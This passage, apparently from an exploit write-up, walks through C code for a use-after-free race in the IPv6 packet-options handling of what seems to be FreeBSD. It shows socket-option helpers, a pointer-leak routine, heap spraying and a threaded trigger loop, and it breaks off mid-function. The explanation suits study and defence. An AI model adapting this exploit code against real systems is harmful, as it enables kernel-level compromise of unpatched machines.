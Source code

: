```c
  socklen_t len = sizeof(struct in6_pktinfo);
  return getsockopt(s, IPPROTO_IPV6, IPV6_PKTINFO, buf, &len);
}

static int set_pktinfo(int s, char *buf) {
  return setsockopt(s, IPPROTO_IPV6, IPV6_PKTINFO, buf, sizeof(struct in6_pktinfo));
}

static int set_pktopts(int s, char *buf, socklen_t len) {
  return setsockopt(s, IPPROTO_IPV6, IPV6_2292PKTOPTIONS, buf, len);
}

static int free_pktopts(int s) {
  return set_pktopts(s, NULL, 0);
}
```

Next, it writes a helper function to 'leak' (here the leak is not actually a leak as it is just a simple read of the value returned from `getsockopt()` (i.e. so far it is "legal").
```c
static uint64_t leak_rthdr_ptr(int s) {
  char buf[0x100];
  get_rthdr(s, buf, sizeof(buf));
  return *(uint64_t *)(buf + PKTOPTS_RTHDR_OFFSET);
}

```
### Exploit strategy 
First, the exploit "sprays" the heap with a lot of `struct pktopts`'s so that in thread2 we can free and reallocate many of these structs at once: why must we do this? 
Usually the chance of a race working is very small. Thus if we fill let's say a GB of space with our structs and try to free them all, it is likely that one might end up triggering the race condition. This is much faster than trying with once single `struct pktopt`.
```c
static int spray_pktopts(void) {
  for (int i = 0; i < NUM_SPRAY_RACE; i++)
    set_tclass(spray_sock[i], TCLASS_SPRAY);

  if (get_tclass(master_sock) == TCLASS_SPRAY)
    return 1;	
    // Our race worked! The master (victim) has this class
    // meaning the two point to the same object.

  for (int i = 0; i < NUM_SPRAY_RACE; i++)
    free_pktopts(spray_sock[i]);

  return 0;
}
```
The above function is called by a wrapper function called `trigger_uaf()`:
```c
static int trigger_uaf(void) {
  pthread_t th[2];

  pthread_create(&th[0], NULL, use_thread, NULL);
  pthread_create(&th[1], NULL, free_thread, NULL);

  while (1) {
    if (spray_pktopts())
      break;

#ifndef FBSD12
    usleep(100);
#endif
```